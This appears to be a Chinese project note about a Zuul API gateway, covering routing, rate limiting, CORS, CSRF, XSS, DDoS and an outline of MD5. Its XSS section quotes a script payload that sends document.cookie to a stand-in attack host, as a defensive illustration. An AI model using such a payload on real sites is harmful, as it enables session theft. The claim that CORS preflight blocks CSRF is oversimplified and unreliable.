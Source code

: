### Zuul作为整个微服务入口，实现请求路由、负载均衡、限流、权限控制等功能
 
 - 作为api网关，zuul负责其他服务的请求路由，通过请求url，将请求转发到对应的服务。
 - 配置了 `hystrix`组件，当请求过多时，进行熔断限流处理。
 - 配置了 `rabbion`组件，将请求负载均衡到服务集群中的不同机器上。
 - 定义了一个前置过滤器，在用户请求到达网关时进行访问控制
     - 无须权限的url直接放行
     - 需要权限的url需要先进行token解析，然后根据解析结果判断是否放行
 ```java
public class AuthFilter extends ZuulFilter {}
```

 - 进行了跨域资源共享配置
    1. 服务器配置了可以访问的域，以及请求方法，请求头部信息。
    2. 对于简单请求，用户在发送请求时，浏览器会自动添加 `Origin` 头部信息
    3. 对于复杂请求，浏览器先发送一次带有 `Origin` 字段的 `OPTION` 请求，检测是否允许跨域访问，然后再发送真实请求
    4. 服务器会判断请求头部的Origin信息是否在配置的 `AllowedOrigin` 中
    5. 服务器响应头部信息中包含配置的 `Access-Control-Allow-Origin` 以及是否允许携带cookie等字段
    6. 浏览器检测到 `Origin` 字段中的值若存在于  `Access-Control-Allow-Origin` 字段中便会显示相应数据
    7. 浏览器检测到 `Origin` 字段中的值不存在于  `Access-Control-Allow-Origin` 字段中便会忽略响应，并报错
  
 - csrf攻击
  - 用户A登录了网站B，网站B在用户A的浏览器上存了cookie信息
  - 这时候用户A又去访问网站C，网站C中的一个链接点击后会对网站B发起恶意访问请求
  - 用户A点击后，对网站B发起了请求
  - 如果没有跨域访问限制，这时候网站B便执行了用户A的请求，导致恶意转账等结果
  - 在允许携带cookie的请求中，cors跨域资源共享则可以有效的抵御csrf攻击，用户A浏览网站C时发起恶意请求时，
    由于恶意请求属于非简单请求，浏览器会先发送一次带有 `Origin` 字段的 `OPTION` 请求，检测是否允许跨域访问，
    这时浏览器响应头部信息的 `Access-Control-Allow-Origin` 字段中没有 `Origin` 字段的值，因此不会发起真正的请求。
 
 - xss攻击
  - 我现在做了个博客系统，然后有一个用户在博客上发布了一篇文章，
    内容是`<script>window.open("www.gongji.com?param="+document.cookie)</script>`，
    如过我没有对它做处理，直接存到数据库里，当别的用户读取文章后，浏览器会执行这段js脚本，然后发起恶意攻击
  - 解决手段：对表单数据进行过滤和转义。
 
 - DDos分布式拒绝服务攻击
  - 攻击者利用很多设备在同一时间对目标进行大量访问请求，耗尽服务器资源，导致服务器无法正常响应。
  - 解决方案：
   - DDos攻击很难有效防御，可以通过购买更多的带宽
   - 使用多台服务器，并部署在不同的数据中心
   - 将静态资源部署到CDN上，利用CDN，就近访问，提高访问速度，同时又避免了服务器被攻击
   - 开启路由器反ip欺骗
   
 - 顺便复习一下MD5算法
  - MD5算法是信息摘要算法的一种实现，它可以从任意长度的明文字符生成128位的hash值。
  - MD5算法的过程分为四步：处理原文，设置初始值，循环加工，拼接结果
    1. 先计算出原文比特长度，然后对512求余的结果。如果不等于448，就填充原文使得原文对512求余的结果等于448。
        填充的方法是第一位填充1，其余位填充0。填充完后，信息的长度就是512*N+448。
        用剩余的位置64位记录原文的真正长度，这样处理后的信息长度就是512*(N+1)
    2. MD5的哈希结果长度为128位，按每32位分成一组共4组。这4组结果是由4个初始值A、B、C、D经过不断演变得到。
    3. 循环加工
        每一次循环都会让旧的ABCD产生新的ABCD。一共进行多少次循环呢？由处理后的原文长度决定。
        假设处理后的原文长度是M，主循环次数 = M / 512，每个主循环中包含 512 / 32 * 4 = 64次子循环。
    4. 拼接结果
    
 